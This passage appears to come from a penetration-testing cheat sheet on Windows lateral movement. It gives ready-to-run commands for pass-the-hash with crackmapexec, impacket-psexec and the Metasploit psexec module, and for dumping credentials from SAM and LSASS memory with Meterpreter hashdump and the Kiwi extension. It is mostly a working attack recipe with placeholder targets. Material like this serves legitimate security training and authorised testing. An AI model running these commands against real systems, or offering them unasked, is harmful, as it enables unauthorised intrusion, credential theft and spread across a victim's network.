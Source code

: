 * Bypass: The built-in **Administrator** account (SID ending in -500) is immune to this restriction.
* Blocked: Any other user in the Administrators group will have their token filtered, and the hash-passing will fail unless UAC remote restrictions are disabled on the target.
{{< /hint >}}


```sh
# 1. with crackmapexec
crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"

# 2. with psexec (impacket)
impacket-psexec -hashes <LM hash>:<NTLM hash> Administrator@<ip>

# 3. Method (Metasploit) -> windows/smb/psexec
msf > use exploit/windows/smb/psexec
msf > set RHOSTS <ip>
msf > set SMBUser Administrator
msf > set SMBPass <LM hash>:<NTLM hash>
msf > run
```

{{< hint style=notes >}}
**Notes**:

* Empty LM hash: `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
  * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
* With `hashdump` you have the right format
{{< /hint >}}

---

### Dumping Credentials from Memory & SAM

{{< hint style=warning >}}
**Prerequisites**: User must be a member a local Administrators.
{{< /hint >}}

**(1) hashdump (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
meterpreter > getpid
meterpreter > ps # Find a SYSTEM process like lsass.exe or winlogon.exe
meterpreter > migrate <PID>

# Dump the hashes
meterpreter > hashdump
```

**(2) Kiwi (Metasploit - Meterpreter)**

```sh
# Ensure you are running as SYSTEM
meterpreter > getuid
meterpreter > getsystem # if needed

# Load the kiwi extension
meterpreter > load kiwi

# Retrieve all available credentials (plaintext, hashes, tickets, etc.)
meterpreter > creds_all

# Dump NTLM hashes for all of the user accounts on the system
meterpreter > lsa_dump_sam

# Dump plaintext passwords and other secrets from memory (LSASS)
lsa_dump_secrets
# Note: from the Windows version 8.0+, windows don’t store any plain text password.
```